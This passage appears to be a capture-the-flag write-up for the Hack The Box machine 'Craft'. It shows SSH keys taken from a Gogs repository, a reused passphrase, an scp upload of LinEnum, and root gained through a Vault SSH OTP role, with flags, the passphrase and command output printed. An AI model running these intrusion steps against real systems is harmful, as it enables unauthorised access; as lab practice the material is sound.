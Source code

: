 Found SSH RSA keys at:
https://gogs.craft.htb/gilfoyle/craft-infra/src/master/.ssh
Downloaded them to Craft working folder

The passphrase is the same! ( ZEU3N8WNM2rh4T )
I'm in :)
```
ssh -i id_rsa gilfoyle@10.10.10.110
```

Looking for user token:
```
gilfoyle@craft:~$ ls
user.txt
gilfoyle@craft:~$ cat user.txt 
bbf4b0cadfa3d4e6d0914c9cd5a612d4
```

## Working towards root
```
scp -i id_rsa ./LinEnum.sh gilfoyle@10.10.10.110:/var/tmp/LinEnum.sh
```
Ran LinEnum and saved full results to working directory.

Was overcomplicating this... Rooting is super easy:
```
gilfoyle@craft:~$ vault ssh -role root_otp -mode otp -strict-host-key-checking=no root@10.10.10.110
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 16cd8504-ca80-d4cd-da4a-33242866b45f
Warning: Permanently added '10.10.10.110' (ECDSA) to the list of known hosts.


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 17 05:05:32 2019
root@craft:~# cat /root/root.txt
831d64ef54d92c1af795daae28a11591
root@craft:~# 
```
